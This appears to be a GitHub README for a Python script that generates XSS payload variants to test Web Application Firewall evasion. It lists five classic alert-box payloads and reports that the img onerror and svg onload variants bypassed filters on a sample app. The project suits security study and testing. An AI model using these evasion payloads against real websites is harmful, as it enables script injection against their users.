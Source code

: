 # WAF Evasion for XSS - Python Script

## 🔹 About
This project explores how Web Application Firewalls (WAFs) block Cross-Site Scripting (XSS) and how attackers try to bypass them.

## 🔹 Script
- `payload_generator.py` → generates different variations of XSS payloads.

## 🔹 Example Payloads
1. `<script>alert('XSS')</script>`
2. `scr<script>ipt`
3. `<img src=x onerror=alert('XSS')>`
4. `<svg/onload=alert('XSS')>`
5. `%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E`

## 🔹 Results
- Tested on a sample vulnerable app.
- Payloads 3 & 4 bypassed filters successfully.
- Payload 1 was blocked by simple WAF filters.

## 🔹 Demonstration of Filter Evasion

### 1. Script Output
The script successfully generated multiple payloads:
![Script Output](screenshots/script_output.png)

### 2. Successful XSS Trigger
The payload `<img src=x onerror=alert('XSS')>` executed successfully, triggering an alert box:
![XSS Alert](screenshots/xss_alert.png)

---

## 🔹 How to Run
```bash
python payload_generator.py

